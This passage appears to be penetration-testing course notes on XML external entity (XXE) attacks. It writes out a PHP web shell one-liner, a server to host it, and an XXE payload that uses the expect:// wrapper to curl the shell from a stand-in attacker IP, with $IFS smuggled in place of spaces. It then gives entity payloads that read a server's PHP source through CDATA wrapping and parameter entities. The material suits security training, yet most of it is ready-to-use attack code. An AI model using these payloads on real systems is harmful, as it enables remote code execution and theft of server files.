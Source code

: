 ```shell-session
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax.

**Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## Advanced File Disclosure

### Advanced Exfiltration with CDATA

we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? . To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities.`

to bypass this limitation, we can utilize `XML Parameter Entities`

What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```xml
<!ENTITY joined "%begin;%file;%end;">
```
